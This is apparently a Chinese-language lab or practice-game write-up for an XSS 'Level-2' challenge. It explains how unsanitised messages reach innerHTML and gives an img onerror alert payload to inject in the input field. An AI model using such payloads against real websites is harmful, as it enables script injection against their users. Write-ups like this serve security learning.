 # Level-2

## 攻擊原理

#### 網頁原始碼:
- index.html

#### Make request:
- 從以下的片段看得出來，post-store.js 負責將 input data 儲存至 DB

```html=
<!-- This is our database of messages -->
<script src="/static/post-store.js"></script>
```

#### Push request:
- 送 POST 的時候沒有做任何的教驗，赤裸送出！

```javascript=
function Post(message) { 
  this.message = message;
  this.date = (new Date()).getTime();
}
```

#### Get response:
- 收 response 時，也直接將 data 放置到 innerHTML

```html=
html += '<b>You</b>';
html += '<span class="date">' + new Date(posts[i].date) + '</span>';
html += "<blockquote>" + posts[i].message + "</blockquote";
html += "</td></tr></table>"
containerEl.innerHTML += html; 
```

#### innerHTML:
- innerHTML 將字串串解析爲 HTML
- 意思是，如果字串串中有腳本 (script) ，瀏覽器就有可能會執行
- 但為什麼 `<script>` 在 innerHTML 中還是無法執行呢？
- 讀完 [Mozilla 官方文件](https://developer.mozilla.org/en-US/docs/Web/API/Element/innerHTML)
- 我們知道 `<script>` 在 innerHTML 中是無法執行的，僅此而已
- 但官方文件也有說，evet 是可以執行的

```
However, there are ways to execute JavaScript without using <script> elements, so there is still a security risk whenever you use innerHTML to set strings over which you have no control. For example:
```

```html=
const name = "<img src='x' onerror='alert(1)'>";
el.innerHTML = name; // shows the alert
```

## 攻擊方法
在 Input field 中插入
```
<img src="xxx" onerror='alert("hello")' />
```

## 截圖
![image info](./00.jpeg)
